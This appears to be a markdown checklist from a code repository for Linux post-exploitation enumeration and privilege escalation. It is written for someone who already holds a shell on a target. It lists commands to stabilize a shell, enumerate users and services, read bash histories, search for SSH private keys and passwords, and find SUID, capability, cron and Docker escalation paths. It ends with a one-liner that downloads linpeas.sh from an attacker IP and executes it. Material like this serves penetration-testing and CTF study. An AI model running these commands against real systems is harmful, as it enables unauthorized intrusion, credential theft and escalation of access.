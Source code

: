 # enum_checklist_pe
---

## 🧩 0. Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

---

## 🧠 1. System Information

```bash
hostname
whoami
id
uname -a
cat /etc/os-release
uptime
cat /proc/version
```

---

## 👤 2. User Information

```bash
who
w
last -a | head -n 10
cat /etc/passwd
cat /etc/group
getent passwd
getent group
```

### Current User Context:

```bash
id
groups
sudo -l 2>/dev/null
```

---

## 📂 3. Home Directories / Sensitive Files

```bash
ls -la /root
ls -la /home
ls -la /home/*/.ssh
cat /home/*/.bash_history 2>/dev/null
```

---

## 🔐 4. Credentials / SSH Keys / Tokens

```bash
find / -name id_rsa 2>/dev/null
grep -r "password" /etc/ 2>/dev/null
grep -r "password" /home 2>/dev/null
```

---

## 💥 5. Privilege Escalation Vectors

### SUID / SGID Binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
```

### World-Writable Files & Directories:

```bash
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

### Capabilities:

```bash
getcap -r / 2>/dev/null
```

### Cron Jobs:

```bash
crontab -l 2>/dev/null
ls -la /etc/cron*
cat /etc/crontab
```

### Check for Docker/LXC (container breakout):

```bash
which docker
docker ps -a
id | grep docker
```

---

## 🧠 6. Running Processes / Services

```bash
ps aux
systemctl list-units --type=service
service --status-all 2>/dev/null
```

---

## 📡 7. Network Information

```bash
ip a
ip r
ss -tulnp
cat /etc/resolv.conf
arp -a
netstat -tulnp
```

---

## 🧱 8. Installed Software / Package Manager

```bash
dpkg -l 2>/dev/null | grep -i security
rpm -qa 2>/dev/null
```

---

## 🔍 9. File Systems & Mounts

```bash
df -h
mount
lsblk
```

---

## 🔐 10. Useful Environment Variables

```bash
env
echo $PATH
```

---

## 🔭 11. Scheduled Jobs

```bash
cat /etc/crontab
ls -l /etc/cron.d/
ls -l /etc/cron.daily/
```

---

## 📁 12. Look for Backups / Databases / Logs

```bash
ls -la /var/backups
ls -la /var/log
find / -name "*.sql" 2>/dev/null
```

---

## 🧰 Optional Tools (Only if Safe)

```bash
wget http://<attacker-ip>/linpeas.sh -O /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh
```

